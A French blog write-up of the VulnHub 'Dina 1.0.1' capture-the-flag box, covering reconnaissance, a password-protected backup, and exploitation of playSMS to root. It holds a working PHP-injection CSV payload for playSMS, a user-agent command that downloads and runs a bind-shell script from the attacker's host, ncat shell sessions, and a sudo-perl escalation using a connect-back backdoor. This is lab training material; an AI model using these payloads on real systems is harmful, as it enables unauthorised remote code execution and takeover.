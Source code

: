 # Solution du CTF Dina: 1.0.1 de VulnHub

On continue les CTF de chez VulnHub avec le [Dina 1.0.1](https://www.vulnhub.com/entry/dina-101,200/) datant d'octobre 2017.  

#my secret webapp
-----------------

```plain
Nmap scan report for 192.168.1.48
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
23490/tcp filtered unknown
35921/tcp filtered unknown
55285/tcp filtered unknown
59929/tcp filtered unknown
59990/tcp filtered unknown
60771/tcp filtered unknown
```

Un seul port ouvert, un joli *It works* à la racine mais un *index.html* tout de même présent qui ne nous apporte rien de plus.  

On retrouve certains des dossiers présents dans le *robots.txt* avec un buster ainsi que des nouveaux :  

```plain
http://192.168.1.48/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/doc/ - HTTP 403 (236 bytes, gzip)
http://192.168.1.48/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.48/nothing/ - HTTP 200 (154 bytes, gzip)
http://192.168.1.48/secure/ - HTTP 200 (452 bytes, gzip) - Directory listing found
http://192.168.1.48/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/tmp/ - HTTP 200 (395 bytes, gzip) - Directory listing found
http://192.168.1.48/uploads/ - HTTP 200 (397 bytes, gzip) - Directory listing found
```

Les dossiers *ange1*, *angel1*, *tmp* et *uploads* sont vides.  

Sous */nothing* la page HTML contient un commentaire avec des mots de passe :  

```html
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

Ça devrait s'avérer utile...  

Justement il y a une archive *backup.zip* sous */secure/* qui semble nécessiter un mot de passe :  

```plain
$ unzip backup.zip
Archive:  backup.zip
   skipping: backup-cred.mp3         need PK compat. v5.1 (can do v4.6)

$ 7z x backup.zip

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

Processing archive: backup.zip

Extracting  backup-cred.mp3
Enter password (will not be echoed) :
```

Et en rentrant le mot de passe *freedom* on obtient un fichier *backup-cred.mp3* qui est en réalité un fichier texte :  

```plain
I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******

url : /SecreTSMSgatwayLogin
```

./webpwn
--------

On se rend sur l'URL en question qui présente une mire de login. On parvient à si connecter avec *touhid* / *diana*.  

Il s'agit de [playSMS](https://playsms.org/) qui se défini comme un *Free and Open Source SMS Gateway*.  

Un tour rapide de l'application et je tique assez vite sur la fonction d'import de fichiers sur phonebook.  

Vu que c'est une vrai application je préfère regarder [la liste des vulnérabilités connues](https://www.cvedetails.com/vulnerability-list.php?vendor_id=2477&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=1&trc=6&sha=8c0e7e35a77560b7cd811bce1ac0a63b8fcb526f) et, oh que le monde est petit, [un exploit écrit par l'auteur du challenge](https://www.exploit-db.com/exploits/42044/)... c'est un signe :)   

[Une vidéo de l'exploit](https://www.youtube.com/watch?v=KIB9sKQdEwE) est citée en référence et on voit qu'il faut uploader un CSV contenant du code PHP spécifique tout en ayant placé le code PHP à exécuter dans notre user-agent.  

Après avoir essayé l'un des switchers j'ai opté pour [celui-ci](https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake?utm_source=chrome-app-launcher-info-dialog) qui semble être le même que dans la vidéo.  

Le fichier CSV uploadé à cette forme (il doit respecter les colonnes du phonebook) :  

```plain
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

Ce qui permet alors l'exécution de commandes :  

![Dina VulnHub playSMS interface](https://github.com/devl00p/blog/raw/master/images/dina_playsms.png)  

Comme pour le précédent challenge j'ai eu recours à [tcp\_pty\_bind.py](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) qui s'avère bien pratique.  

Mon user-agent était alors *cd /tmp; wget http://192.168.1.6:8000/tcp\_pty\_bind.py; setsid python tcp\_pty\_bind.py&*  

```plain
$ ncat 192.168.1.48 31337 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.1.48:31337.
www-data@Dina:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

g0tr00t?
--------

Sympa ce petit shell mais un peu limité. Le shell définit pour *www-data* est bien */bin/sh*... mais il n'y a pas de sshd sur la machine... sniff.  

Il y a un utilisateur *touhid* qui pourrait être intéressant. Quelques fichiers dans son dossier Downloads mais ils ont le même hash md5 que ceux sous la racine web :-/   

A tout hasard, peut-on exécuter certaines commandes en tant que root ?   

```plain
www-data@Dina:/tmp$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

Bingo !  

Plus qu'à récupérer ce fameux [dc.pl](https://pastebin.com/raw/bq6Zbpya) (pas de quoi me rajeunir) et l'exécuter avec sudo.  

```plain
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.1.48.
Ncat: Connection from 192.168.1.48:49435.
--== ConnectBack Backdoor Shell EDITED BY XORON TURK?SH HACKER ==--

--==Systeminfo==--
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux

--==Userinfo==--
uid=0(root) gid=0(root) groups=0(root)

--==Directory==--
/tmp

--==Shell==--
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))

root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....

CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

Simple et rapide :p

*Published February 10 2018 at 16 00*
